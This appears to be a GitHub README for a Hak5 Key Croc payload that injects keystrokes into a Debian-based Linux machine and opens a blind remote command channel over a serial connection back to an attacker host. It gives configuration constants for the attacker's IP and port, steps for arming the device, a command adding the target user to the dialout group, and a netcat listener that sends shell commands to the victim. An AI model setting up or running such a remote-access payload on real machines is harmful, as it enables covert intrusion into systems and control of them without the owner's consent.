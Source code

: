 # "Linux" Blind Serial Command Injection

- Title:            "Linux" Blind Serial Command Injection
- Author:           TW-D
- Version:          1.0
- Target:           Debian-Based Linux Distributions
- Category:         Remote Access
- Attackmodes:      HID then SERIAL

## Description

Allows a remote attacker to execute commands on a Linux system via a serial connection, 
without receiving feedback on the results of the commands.

![schema](./readme_files/schema.png "schema")

__Note :__ *The target user must belong to the "dialout" group.*

```bash
target@target-computer:~$ groups
target@target-computer:~$ sudo usermod --groups dialout --append "${USER}"
```

## Configuration

From the file "lin_blind-serial-command-injection.txt" change the value of the following constants :

```

######## INITIALIZATION ########

readonly REMOTE_HOST="192.168.0.X"
readonly REMOTE_PORT="4444"
[...]

######## SETUP ########

LED SETUP

export DUCKY_LANG="us"

```

## Trigger

>
> Not applicable because of matchless payload
>

## Usage

1. Edit "config.txt" on the Key Croc in "Arming Mode" to specify the WiFi network name and 
the associated password.

2. Then place the file "lin_blind-serial-command-injection.txt" in the "payloads/" directory.

3. Eject the Key Croc safely and then start, for example, "netcat" listening on the port 
you specified in the REMOTE_PORT constant.

```bash
hacker@hacker-computer:~$ nc -lnvvp 4444
[...]
shell> echo "$(hostname)" > /tmp/output.log
[CTRL + c]
```
